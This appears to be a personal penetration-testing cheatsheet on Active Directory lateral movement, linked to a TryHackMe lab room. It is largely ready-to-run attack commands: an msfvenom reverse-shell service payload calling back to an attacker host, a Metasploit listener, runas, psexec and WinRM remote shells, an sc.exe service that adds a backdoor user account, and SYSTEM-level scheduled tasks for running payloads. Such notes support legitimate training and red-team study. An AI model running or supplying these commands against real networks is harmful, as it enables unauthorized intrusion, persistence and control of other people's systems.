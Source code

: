 # AD Lateral Movement - Spawning Processes Remotely
#### !! WARNING !!
#### BEWARE REQUIREMENTS 
####  !! WARNING !!
- Access and Access to how spawning - ssh access 

See [[Windows-Processes]] for more information on Service and Processes. For ease of user the [[MSFvenom-Payloads]] for exe-service.
```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=$ATTACKER_IP LPORT=4444 -o myservice.exe
```

Requires some file infiltration for example upload with smbclient, the user **must have the correct security context**. 
```bash
smbclient -c 'put myservice.exe' -U <username> -W <workgroup> '//<domain>/share$' <Password> 
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $ATTACKER_IP; set LPORT 4444;exploit"
```

**sc.exe doesn't allow specifying credentials use runas** 

```shell-session
runas /netonly /user:<DOMAIN>\<username> "c:\reverse\shell.exe <options> $ATTACKER_IP $PORT"
```


## Psexec
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) of Sysinternal Tools is used by Admins so will less likely blocked by Firewall. See [[Sysinternals-Hub]] for more Sysinternals. It is also an Impacket tool see [[Impacket-Cheatsheet]]
Requires:
1. Port 445/TCP (SMB) 
1. Requires: `Administrator Group` Membership


`psexec` connects to `Admin$` share and uploads a service binary with the name  `psexesvc.exe` then connects to service control manager to create and run a service named `PSEXESVC` and associates the service binary with `C:\Windows\psexesvc.exe`, finally creating named pipes to handles Std(in/out/err).

```powershell
psexec64.exe \\$IP -u Administrator -p ******** -i cmd.exe
```


## Remote Process Creation Using WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely, with most Windows Server installations have WinRM enabled by default.

1. Ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
2. Requires: `Remote Management Users Group` Membership

Connect to remote powershell session:
```powershell
winrs.exe -u:Administrator -p:********** -r:$target cmd
```

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting) suggests that you can accomplish a similar thing with a Powershell by creating a PSCredential object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Enter-PSSession cmdlet to create and interactive session:
```powershell
Enter-PSSession -Computername $TARGET -Credential $credential
```

Using Invoke-Command cmdlet we can run ScriptBlocks remote via WinRM. 
```powershell
Invoke-Command -Computername $TARGET -Credential $credential -ScriptBlock {whoami}
```


## Remote Service Creation with `sc`
**sc.exe doesn't allow specifying credentials use runas** 

1. Ports:  
	1. 135/TCP, 49152-65535/TCP (DCE/RPC)
	2. 445/TCP (RPC over SMB Named Pipes)
	3. 139/TCP (RPC over SMB Named Pipes)
2.  Requires: `Administrator Group` Membership

Windows services can be leveraged to execute a command when started, `sc` we create a service on a remote host and attempt to connect to the Service Control Manager(SVCCTL) remote service program through RPC in multiple ways.
1. DCE/RPC `Request -> EMP(port 135) -> Response=SVCCTL is <dynamic port>` Then `RPC Bind to SVCCTL on <dynamic port>`
2. If the above failes `sc` connects to port `Named pipe <\pipe\svcctl\>` on port 445 (SMB or 139 ()

```powershell
sc.exe \\$TARGET create Badbadservice binPath= "net user friend Pass123 /add" start= auto
sc.exe \\$TARGET start Badbadservice
# To Stop and Delete service 
sc.exe \\$TARGET stop Badbadservice
sc.exe \\$TARGET delete Badbadservice
```


## Creating Scheduled Tasks Remotely
`schtasks` can create tasks remotely with `/s` flag.
```powershell
schtasks /s $TARGET /RU "SYSTEM" /create /tn "Badtask" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $TARGET /run /TN "Badtask" 
# To delete
schtasks /S $TARGET /TN "Badtask" /DELETE /F
```

## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 
